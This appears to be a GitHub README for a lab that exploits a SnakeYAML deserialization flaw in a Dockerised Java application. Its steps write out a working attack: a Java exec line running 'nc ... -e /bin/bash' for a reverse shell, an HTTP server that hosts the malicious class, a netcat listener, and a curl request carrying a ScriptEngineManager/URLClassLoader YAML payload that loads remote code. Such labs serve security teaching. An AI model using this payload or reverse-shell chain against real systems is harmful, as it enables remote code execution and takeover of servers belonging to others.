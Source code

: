Exploiting SnakeYAML Deserialization Vulnerability and Obtaining a Reverse Shell
This repository contains a step-by-step guide on how to exploit the SnakeYAML deserialization vulnerability in a Java application running in a Docker container, and how to obtain a reverse shell. Please note that this guide is for educational purposes only and should not be used for any malicious activities.

Prerequisites
Before starting, make sure you have the following:

Docker installed on your system.
Basic knowledge of Docker and Java.
About the Vulnerable Application
The vulnerable Java application running in the Docker container is designed to accept unsanitized YAML input. The application uses SnakeYAML, a popular YAML library for Java, which is known to have a deserialization vulnerability.

It's important to note that in a secure production environment, applications should always validate and sanitize user input to prevent security vulnerabilities like this. The purpose of this repository is to demonstrate the exploitation of such vulnerabilities for educational purposes only.

Steps
1. Set up the Docker environment
Clone this repository to your local machine.
Navigate to the repository's directory.
2. Build the vulnerable application
Build the Docker image containing the vulnerable Java application by running the following command:

docker build -t vulnerable-app .
3. Start the Docker container
Start the Docker container using the following command:

docker run -d -p 8080:8080 --name vulnerable-container vulnerable-app

4. Edit and compile ExploitScriptEngineFactory.java
Runtime.getRuntime().exec("nc <IP-ADDRESS> <PORT> -e /bin/bash");
Replace IP-ADDRESS with your attacker machine and PORT with listener port noted in step 6.

Compile:
javac ExploitScriptEngineFactory.java

Then place the compiled class file inside the folder (e.g exploit/ExploitScriptEngineFactory.class)

5. Start an HTTP server

Start an HTTP server to host the java class file inside the `src` directory. You can use Python's SimpleHTTPServer module:

python3 -m http.server 8000

6. Exploit the SnakeYAML deserialization vulnerability
Start a listener on your local machine to receive the reverse shell connection. Use Netcat or any other suitable tool:

nc -lvp 3333
Serve the java class file using the same HTTP server from step 4.


Use a tool like Burp Suite or curl to send a malicious payload to the vulnerable application. Modify the payload as per your requirements.

curl -X POST -H "Content-Type: application/x-yaml" \
     -d '!!javax.script.ScriptEngineManager [
          !!java.net.URLClassLoader [[!!java.net.URL ["http://<your-web-server-ip>:8000/"]]]
        ]' \
     http://localhost:8080/endpoint


Once the payload is successfully executed on the vulnerable machine, you will receive a reverse shell connection on your listener.

Disclaimer
This guide is provided for educational purposes only. Do not use this information for any illegal or malicious activities. The authors and contributors are not responsible for any misuse or damage caused. Use at your own risk.

Contributing
If you have any improvements or suggestions for this guide, please feel free to submit a pull request.

License
This project is licensed under the MIT License.